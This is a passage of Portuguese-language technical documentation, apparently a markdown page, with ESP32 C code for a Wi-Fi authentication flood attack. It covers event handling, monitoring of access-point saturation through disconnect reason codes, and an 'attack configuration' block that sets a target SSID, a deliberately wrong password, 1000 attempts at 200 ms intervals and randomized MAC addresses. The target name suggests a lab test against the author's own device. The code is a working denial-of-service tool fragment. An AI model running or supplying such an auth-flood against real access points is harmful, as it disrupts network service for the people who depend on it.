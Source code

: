 ```c
            analyze_ap_behavior(event->reason, response_time);
            break;
        }
        
        case IP_EVENT_STA_GOT_IP:
            // Sucesso inesperado (senha estava correta?)
            auth_successes++;
            ESP_LOGE(TAG, "⚠️ SUCESSO INESPERADO na tentativa #%d!", auth_attempts);
            break;
    }
}
```

#### 3.5 Análise de Saturação do AP
```c
void analyze_ap_behavior(uint8_t reason_code, uint32_t response_time) {
    static uint32_t consecutive_timeouts = 0;
    static uint32_t avg_normal_response = 500;  // ms
    
    switch (reason_code) {
        case WIFI_REASON_AUTH_EXPIRE:
            consecutive_timeouts++;
            ESP_LOGD(TAG, "⏰ Timeout de autenticação detectado");
            break;
            
        case WIFI_REASON_AUTH_FAIL:
            consecutive_timeouts = 0;  // Reset timeout counter
            ESP_LOGD(TAG, "🔑 Falha de credenciais (normal)");
            break;
            
        case WIFI_REASON_NO_AP_FOUND:
            ESP_LOGW(TAG, "📡 AP não encontrado - possível sobrecarga");
            break;
    }
    
    // Detectar sinais de saturação
    if (consecutive_timeouts > 5) {
        ESP_LOGW(TAG, "🚨 POSSÍVEL SATURAÇÃO: %d timeouts consecutivos", 
                 consecutive_timeouts);
    }
    
    if (response_time > (avg_normal_response * 3)) {
        ESP_LOGW(TAG, "🐌 RESPOSTA LENTA: %dms (normal: %dms)", 
                 response_time, avg_normal_response);
    }
}
```

## Configurações de Ataque

### 1. Parâmetros Principais
```c
#define TARGET_SSID "ESP32_AP"
#define TARGET_PASS "wrongpassword"      // Senha incorreta propositalmente
#define AUTH_FLOOD_INTERVAL_MS 200       // 200ms entre tentativas
#define MAX_AUTH_ATTEMPTS 1000           // Máximo de tentativas
#define RANDOMIZE_MAC_AUTH true          // Usar MACs aleatórios
#define CONCURRENT_ATTEMPTS 1            // Tentativas simultâneas
```
